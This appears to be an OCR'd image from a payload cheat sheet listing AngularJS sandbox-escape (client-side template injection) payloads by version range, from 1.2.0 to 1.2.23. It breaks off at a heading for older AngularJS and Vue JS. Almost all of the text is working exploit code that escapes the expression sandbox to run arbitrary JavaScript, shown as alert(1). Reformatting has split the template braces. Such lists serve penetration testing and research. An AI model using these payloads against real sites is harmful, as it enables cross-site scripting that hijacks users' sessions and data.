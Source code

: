 AngularJS 1.2.19 - 1.2.23

```javascript
{
  {
    toString.constructor.prototype.toString =
      toString.constructor.prototype.call;
    ["a", "alert(1)"].sort(toString.constructor);
  }
}
```

AngularJS 1.2.6 - 1.2.18

```javascript
{
  {
    (_ = "".sub).call.call(
      {}[($ = "constructor")].getOwnPropertyDescriptor(_.__proto__, $).value,
      0,
      "alert(1)"
    )();
  }
}
```

AngularJS 1.2.2 - 1.2.5

```javascript
{
  {
    "a"[{ toString: [].join, length: 1, 0: "__proto__" }].charAt = "".valueOf;
    $eval(
      "x='" + (y = "if(!window\\u002ex)alert(window\\u002ex=1)") + eval(y) + "'"
    );
  }
}
```

AngularJS 1.2.0 - 1.2.1

```javascript
{
  {
    a = "constructor";
    b = {};
    a.sub.call.call(
      b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub), a).value,
      0,
      "alert(1)"
    )();
  }
}
```

AngularJS 1.0.1 - 1.1.5 and Vue JS
